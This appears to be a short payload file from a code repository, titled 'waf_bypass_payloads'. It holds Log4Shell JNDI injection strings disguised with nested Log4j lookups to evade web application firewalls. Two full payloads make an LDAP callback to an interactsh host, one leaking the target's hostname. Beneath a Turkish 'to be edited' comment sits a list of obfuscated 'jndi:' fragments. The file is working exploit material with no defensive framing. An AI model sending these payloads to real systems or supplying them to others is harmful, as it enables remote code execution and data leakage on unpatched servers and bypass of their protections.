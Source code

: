 # waf_bypass_payloads


${jndi:${lower:l}${lower:d}a${lower:p}://${hostName}.acceptencoding.{{interactsh-url}}}

${j${k8s:k5:-ND}${sd:k5:-${123%25ff:-${123%25ff:-${upper:ı}:}}}ldap://{{interactsh-url}}}


# editlenecek
jndi:
jn${env::-}di:
jn${date:}di${date:':'}

j${k8s:k5:-ND}i${sd:k5:-:}
j${main:\k5:-Nd}i${spring:k5:-:}
j${sys:k5:-nD}${lower:i${web:k5:-:}}
j${::-nD}i${::-:}
j${EnV:K5:-nD}i:
j${loWer:Nd}i${uPper::}


